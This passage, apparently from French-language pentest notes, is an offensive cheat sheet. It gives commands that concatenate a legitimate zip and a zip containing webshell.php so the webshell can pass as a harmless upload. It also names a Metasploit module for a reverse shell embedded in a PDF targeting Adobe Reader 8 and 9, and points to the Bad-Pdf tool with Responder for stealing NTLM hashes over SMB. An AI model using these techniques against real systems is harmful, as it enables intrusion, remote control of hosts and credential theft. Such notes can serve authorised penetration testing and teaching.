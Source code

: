 ```
zip legit.zip pdf-exemple.pdf
```

zipper le webshell.

```
zip webshell.zip webshell.php
```

concaténer les 2 archives dans une nouvelle archive (l'archive légitime doit être première et la malicieuse en second)

```
cat legit.zip webshell.zip > Final.zip
```


## PDF

### PDF Reverse shell

Metasploit (Adobe Reader v8.x, v9.x )

```
use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

### PDF Steal NTLM Hash

https://github.com/deepzec/Bad-Pdf

Responder doit tourner en smb

